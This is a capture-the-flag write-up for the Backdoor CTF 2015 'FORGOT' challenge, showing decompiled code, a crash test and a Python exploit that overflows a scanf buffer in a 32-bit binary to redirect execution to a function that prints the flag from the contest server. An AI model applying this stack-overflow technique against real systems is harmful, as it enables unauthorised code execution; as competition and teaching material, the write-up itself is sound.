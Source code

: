 ```yaml
---
layout: post
title: "Backdoor CTF 2015 - FORGOT Writeup"
date: 2015-04-03 02:57:55 +0430
comments: false
categories: ctf backdoor exploit bof
---
```


**Backdoor 2015 FORGOT Writeup**  
**Point = 200**  
**Category = Exploit**  

> Fawkes has been playing around with Finite State Automaton lately. While exploring the concept of implementing regular expressions using FSA he thought of implementing an email-address validator.  
> Recently, Lua started to annoy Fawkes. To this, Fawkes, challenged Lua to a battle of wits. Fawkes promised to reward Lua, only if she manages to transition to a non-reachable state in the FSA he implemented. The replication can be accessed here.

```
$ file forgot
forgot: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=35930a2d9b048236694e9611073b759e1c88b8c4, stripped
```

```
$ ./forgot 
What is your name?
> AAAAAAAAA

Hi AAAAAAAAA


                        Finite-State Automaton

I have implemented a robust FSA to validate email addresses
Throw a string at me and I will let you know if it is a valid email address

                                Cheers!

I should give you a pointer perhaps. Here: 8048654

Enter the string to be validate
> AAAAAAAAAAAAAAAAAA
Dude, you seriously think this is going to work. Where are the fancy @ and [dot], huh?
```

without loosing time opening the binary into IDA shows us several functions but the General function to this functionality is `0x08047AA`. lets see the psuedo-code :
<!--more-->
```
...
  puts("What is your name?");
  printf("> ");
  fflush(stdout);
  fgets((char *)&v19, 32, stdin);
  sub_80485DD(&v19);
  fflush(stdout);
  printf("I should give you a pointer perhaps. Here: %x\n\n", sub_8048654);
  fflush(stdout);
  puts("Enter the string to be validate");
  printf("> ");
  fflush(stdout);
  __isoc99_scanf("%s", &v8);
  for ( i = 0; ; ++i )
 ...
```
This is the interesting part since we have control on inputs. `v19` is a 32 char buffer so no vulnerabilty is there. but what about `__isoc99_scanf("%s", &v8);` ? obviously using *scanf* in such a manner is exteremly dangerous. `v8` also is a 32 char buffer. so it is also another stack buffer overflow like `ECHO`. lets check this condition : 

```
$ python -c 'print "GeeksSpeak\n"+"A"*40+"\n"' > forgot.test
hamidx9@KernelsCallMe:~/ctf/backdoor/public/FORGOT$ cat forgot.test 
GeeksSpeak
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

hamidx9@KernelsCallMe:~/ctf/backdoor/public/FORGOT$ ./forgot < forgot.test 
What is your name?
> 
Hi GeeksSpeak


                        Finite-State Automaton

I have implemented a robust FSA to validate email addresses
Throw a string at me and I will let you know if it is a valid email address

                                Cheers!

I should give you a pointer perhaps. Here: 8048654

Enter the string to be validate
Segmentation fault (core dumped)

```

and `gdb` proves this too. but how should i read the flag? do we need ROP? or something simillar? i started dumping strings in IDA and located these: 

```
.rodata:08048D9F 00000007 C ./flag
.rodata:08048DA6 00000007 C cat %s
```

these strings had been used in `0x080486CC` and finding a call system proves that like ECHO we should just using this function as RET.

by using this piece of code we have: 

```python
#!/usr/bin/python
import struct
import socket
import telnetlib

def readuntil(f, delim='> '):
    data = ''
    while not data.endswith(delim):
        c = f.read(1)
        assert len(c) > 0
        data += c
    return data

def p(v):
    return struct.pack('<I', v)

def u(v):
    return struct.unpack('<I', v)[0]


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('hack.bckdr.in', 8009))
f = s.makefile('rw', bufsize=0)

readuntil(f)
f.write("A\n")
readuntil(f)
f.write("A"*32+p(0x80486CC)+"\n")

t = telnetlib.Telnet()
t.sock = s
t.interact()
```

```
$ python sol.py 
ebe2c4abf85c239c7bd0385a685c460b2c5fe1dcdb2236f87dfef826bb690adf
*** Connection closed by remote host ***
```

We've got the flag. 200pts.

HAMIDx9
